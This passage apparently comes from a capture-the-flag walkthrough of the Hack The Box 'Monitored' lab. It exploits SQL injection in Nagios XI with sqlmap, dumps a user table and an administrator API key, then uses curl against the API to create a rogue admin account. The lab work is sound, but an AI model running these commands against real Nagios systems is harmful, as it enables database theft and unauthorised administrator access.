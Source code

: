 ```
sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=895ab920b8c2b4196e16ee5c4f6c4470fbd77bae" -p id --level 5 --risk 3 --dump 
```

Once you see `GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N]` enter `N`.

![SQLmap command](/images/HTB-Monitored/sqlmap.png)

SQLmap will start dumping all the tables of the database on the terminal but we can inspect the tables we are interested in by going to `/home/<YOUR_USERNAME>/.local/share/sqlmap/output/nagios.monitored.htb/dump/`. We know that the exploit is related to the tables `xi_session` and `xi_users`.

![SQLmap tables dump](/images/HTB-Monitored/tables-dumped.png)

You can also scroll through the output on the terminal and find the `xi_users` table dump. We find the API key for the `Nagios Administrator` user `IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL`.

![API key found](/images/HTB-Monitored/API-key.png)

> Passwords hashes are also present in the dump but we are unable to crack them.

Still we don't have any valid credentials to login into Nagios XI and there is no way to sign up. Our only option is to find how to add a new account.

After some research we find how to add new users via the API [here](https://support.nagios.com/forum/viewtopic.php?t=42923) and on [this](https://support.nagios.com/forum/viewtopic.php?f=6&t=40502) page we also find that we can add an admin account by using the `auth_level` parameter. 

![NagiosXI add users via API](/images/HTB-Monitored/nagiosxi-api.png)

The command below is used to create a new admin user.  The `username`, `email`, `name`, and `password` fields are required.

```
curl -k "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1" -d "username=adminsec&password=password123&name=kscorpio&email=kscorpio@monitored.htb&auth_level=admin"
```

![User added via API successfully](/images/HTB-Monitored/user-created.png)

With the account newly created we are able to log into Nagios XI at `https://nagios.monitored.htb/nagiosxi/`

> You will be asked to change the password once you login.

![NagiosXI login success](/images/HTB-Monitored/nagiosxi-login.png)

On the Dashboard, hover on the `Configure` menu and select `Core Config Manager`.

![NagiosXI config](/images/HTB-Monitored/nagiosxi-config.png)
